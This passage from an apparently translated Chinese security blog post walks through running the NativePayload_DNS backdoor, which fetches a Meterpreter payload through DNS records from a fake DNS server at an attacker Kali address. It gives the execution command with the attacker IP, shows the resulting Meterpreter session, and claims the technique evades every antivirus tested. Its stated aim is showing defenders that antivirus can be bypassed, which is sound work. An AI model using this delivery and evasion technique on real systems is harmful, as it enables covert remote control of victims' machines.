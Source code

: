 假冒DNS服务器IP地址：是我们或者说是攻击者的假冒的DNS服务器IP地址，在这种情况下，我们的kali linux ip地址是192-168-1-50。

在执行后门之前，你要记住，必须确保kali linux里的Metasploit监听在IP地址192-168-1-50。

现在你可以像图7一样执行后门了：

NativePayload_DNS.exe			 1.1.1.  		34  		192.168.1.50

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01c0a6457e828b9752.png)

图7：NativePayload_DNS 工具

正如图7里，后门尝试发送DNS请求IP地址1.1.1.x，并得到了PTR或者FQDN类型记录的回应。在下一张图里，你会发现客户端和假冒DNS服务器之间的网络流量。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01000dea30ee3e8173.png)

图8：利用DNS流量传送Meterpreter载荷

最终34个记录倒计时完成之后，你会在攻击者那端得到一个Meterpreter连接会话，像图9里的。而且不幸的是，我的杀软没检测出来这种技术。我认为大多数的杀软都无法检测出来，如果你用其他杀软测试了这个技术，请在评论里留言告诉我结果，还有哪款杀软和版本;)。谢谢你伙计。

[![](https://p3.ssl.qhimg.com/t01e9303b6889aeca8c.png)](https://p3.ssl.qhimg.com/t01e9303b6889aeca8c.png)

图9：利用DNS协议的Meterpreter会话连接

你会看到我的杀软再一次被绕过了;-)，这是用所有杀软扫描我的源代码的结果，你可以比较图3和图10。两个后门使用同样的载荷。

[![](https://p5.ssl.qhimg.com/t017d696b86298bef3a.png)](https://p5.ssl.qhimg.com/t017d696b86298bef3a.png)

图 10: NativePayload_DNS (AVs结果 = 0 被检测)

下张图你会看到C#源代码使用了NSLOOKUP工具的背后究竟发生了什么。

[![](https://p1.ssl.qhimg.com/t0113187477f44761f5.png)](https://p1.ssl.qhimg.com/t0113187477f44761f5.png)

图11：Nslookup 和 UDP连接

最终你会在tcpview和putty里看到我的Meterpreter会话，见下图：

[![](https://p4.ssl.qhimg.com/t01381f8e438d269ac7.png)](https://p4.ssl.qhimg.com/t01381f8e438d269ac7.png)

图12：Tcpview以及TCP有效连接，当后门载荷被从假冒的DNS服务器下载下来后。

在图13里，你同样可以看到Meterpreter会话：

[![](https://p4.ssl.qhimg.com/t014e62cb6dcc24c010.png)](https://p4.ssl.qhimg.com/t014e62cb6dcc24c010.png)

图13：Meterpreter会话。

一目了然：你不能相信杀软总是可以防范网络中攻击载荷的传输，如果通过这种技术或者其他的方法来传送攻击载荷的话，哪怕是使用其他协议。你的网络和客户端/服务器是很脆弱的。所以请用你自己的杀软测试这个技术，并分享你的经验，在评论里留言告诉我(也许这件事我说错了，也许没有)。
